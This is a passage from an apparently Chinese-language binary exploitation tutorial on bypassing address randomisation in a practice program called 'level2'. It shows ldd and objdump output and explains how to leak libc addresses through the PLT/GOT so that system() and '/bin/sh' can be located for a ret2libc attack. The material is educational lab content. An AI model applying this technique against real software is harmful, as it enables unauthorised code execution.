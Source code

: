``` bash
$ ldd level2
	linux-gate.so.1 =>  (0xf7f56000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d81000)
	/lib/ld-linux.so.2 (0xf7f58000)
$ ldd level2
	linux-gate.so.1 =>  (0xf7f1b000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d46000)
	/lib/ld-linux.so.2 (0xf7f1d000)
```

那么如何解决地址随机化的问题呢？思路是：我们需要先`泄漏`出libc.so`某些函数`在内存中的地址，然后再利用泄漏出的函数地址根据`偏移量`计算出`system()函数`和`/bin/sh字符串`在内存中的地址，然后再执行我们的`ret2libc`的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为`程序本身`在内存中的地址`并不是随机的`，如图所示：

<div align="left">
    ![Linux内存随机化分布图](/resources/2018/2018-05-10-00.jpg)
</div>

Linux内存随机化分布图

所以我们只要把返回值设置到`程序本身`就可执行我们期望的指令了。首先我们利用`objdump`来查看可以利用的`plt函数`和函数对应的`got表`：

``` bash
$ objdump -d -j .plt level2

Disassembly of section .plt:

080482f0 <read@plt-0x10>:
 80482f0:	ff 35 04 a0 04 08    	pushl  0x804a004
 80482f6:	ff 25 08 a0 04 08    	jmp    *0x804a008
 80482fc:	00 00                	add    %al,(%eax)
	...

08048300 <read@plt>:
 8048300:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 8048306:	68 00 00 00 00       	push   $0x0
 804830b:	e9 e0 ff ff ff       	jmp    80482f0 <_init+0x28>

08048310 <__libc_start_main@plt>:
 8048310:	ff 25 10 a0 04 08    	jmp    *0x804a010
 8048316:	68 08 00 00 00       	push   $0x8
 804831b:	e9 d0 ff ff ff       	jmp    80482f0 <_init+0x28>

08048320 <write@plt>:
 8048320:	ff 25 14 a0 04 08    	jmp    *0x804a014
 8048326:	68 10 00 00 00       	push   $0x10
 804832b:	e9 c0 ff ff ff       	jmp    80482f0 <_init+0x28>


$ objdump -R level2

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a00c R_386_JUMP_SLOT   read@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   write@GLIBC_2.0
```
